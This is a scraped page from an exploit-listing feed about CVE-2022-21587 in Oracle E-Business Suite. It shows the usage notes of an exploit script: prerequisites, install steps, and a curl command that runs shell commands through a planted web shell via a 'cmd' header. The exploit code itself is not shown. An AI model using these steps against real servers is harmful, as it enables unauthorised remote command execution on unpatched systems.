 ```yaml
---
title: Exploit for Vulnerability in Oracle E-Business Suite exploit
url: https://sploitus.com/exploit?id=C31B2400-EF62-5B2A-9FA8-1F46B4B09E7A&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-04
fetch_date: 2025-10-04T08:35:47.932596
---
```


# Exploit for Vulnerability in Oracle E-Business Suite exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Missing Authentication for Critical Function in Oracle E-Business\_Suite CVE-2022-21587

2023-03-03 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=C31B2400-EF62-5B2A-9FA8-1F46B4B09E7A
Prerequirement for this exploit to run:

- python3 including module (requests, os, sys, slipit)
- uuencode

Before you run, make sure to use for only on ethical duties

if the exploit Fail to run:
- Make sure you already install the pre req module

install requests
- pip3 install requests

- Install slipit, git clone https://github.com/usdAG/slipit
  - cd slipit
  - python3 setup.py sdist
  - pip3 install --user dist/* OR python3 -m pip install --user dist/*

- Install uuencode
  - sudo apt install sharutils

- Usage : python3 exploit.py http://target.com
  - then the shell will poping up OR you can also execute the shell using curl or web proxies tools(burpsuite)
  - using curl : curl -k https://target/OA_CGI/FNDWRR.exe -H 'cmd: whoami'
  - using burpsuite: Just adding `cmd` in header request with any bash payload you want execute
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)